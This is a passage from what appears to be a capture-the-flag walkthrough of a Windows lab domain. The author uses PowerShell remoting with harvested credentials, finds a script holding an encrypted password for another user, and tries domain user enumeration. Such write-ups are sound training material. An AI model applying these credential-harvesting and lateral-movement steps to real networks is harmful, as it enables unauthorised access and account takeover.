 Unfortunately, imonks is not able to access it:



    PS C:\Utils> Invoke-Command -ScriptBlock { ls '\program files\keepmeon' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    Access to the path 'C:\program files\keepmeon' is denied.
        + CategoryInfo          : PermissionDenied: (C:\program files\keepmeon:String) [Get-ChildItem], UnauthorizedAccess 
       Exception
        + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
        + PSComputerName        : ATSSERVER



#### Desktop

In addition to `user.txt`, there's another file on imonk's desktop:



    PS C:\Utils> Invoke-Command -ScriptBlock { ls ..\desktop } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

        Directory: C:\Users\imonks\desktop

    Mode                 LastWriteTime         Length Name                               PSComputerName                    
    ----                 -------------         ------ ----                               --------------                    
    -ar---        05/06/2022     22:16             34 user.txt                           ATSSERVER                         
    -a----        11/01/2022     18:04            602 wm.ps1                             ATSSERVER



It has credentials for jmorgan back on Acute-PC01:



    $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
    $passwd = $securepasswd | ConvertTo-SecureString
    $creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
    Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds



#### jmorgan

I'm not able to get to the DC to get information about jmorgan:



    PS C:\Utils> net user jmorgan /domain
    net user jmorgan /domain
    The request will be processed at a domain controller for domain acute.local.

    System error 1722 has occurred.

    The RPC server is unavailable.

